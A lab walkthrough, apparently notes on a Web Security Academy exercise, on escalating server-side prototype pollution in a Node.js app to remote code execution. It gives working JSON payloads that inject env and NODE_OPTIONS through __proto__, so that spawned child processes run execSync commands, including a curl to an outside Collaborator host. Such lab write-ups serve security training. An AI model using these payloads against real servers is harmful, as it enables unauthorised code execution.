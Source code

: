 ![[Change Email.png]]

Try using "Server-Side Prototype Pollution" extension by sending the request to the extension. If exploitable, it may report sources found in the Issues tab:

![[Issue.png]]

If confirmed, check the maintenance jobs functionality. Functionality like this can spawn node child processes. There are many sinks that occur in the child process module like spawn, exec and execFile. [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce) includes some interesting payloads.

Try using an example:

```js
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
```

And adding a new object containing two properties:

-  env - an object containing an `evil` property with a value of a cURL request to Collaborator
- NODE_OPTIONS  - contains a value

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"lTZhtiAQ2Pt6mw4ZlQ8IjZcrdngL1dgE",
"__proto__":{
"env":{
"evil":"require('child_process').execSync('curl 8t2t4ushprz3hh7pym2xoi6bb2ht5jt8.oastify.com').toString())//"},
"NODE_OPTIONS":"--require /proc/self/environ"}}
```

![[ENV.png]]

This loads the environment module to access environment variables set on the server. The `env` property is usually used to store environment variables. Within `env` object, a new property is made that loads a child process module and calls the execSync function on it to execute a command.

If successful, the injected properties get reflected. Try running the cleanup jobs, which may spawn a new child process that can get polluted with the injected properties and execute a cURL request to Collaborator:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"lTZhtiAQ2Pt6mw4ZlQ8IjZcrdngL1dgE",
"__proto__":{
"env":{
"evil":"require('child_process').execSync('curl 8t2t4ushprz3hh7pym2xoi6bb2ht5jt8.oastify.com')//"},
"NODE_OPTIONS":"--require /proc/self/environ"}}
```
# RCE via child_process.execSync()
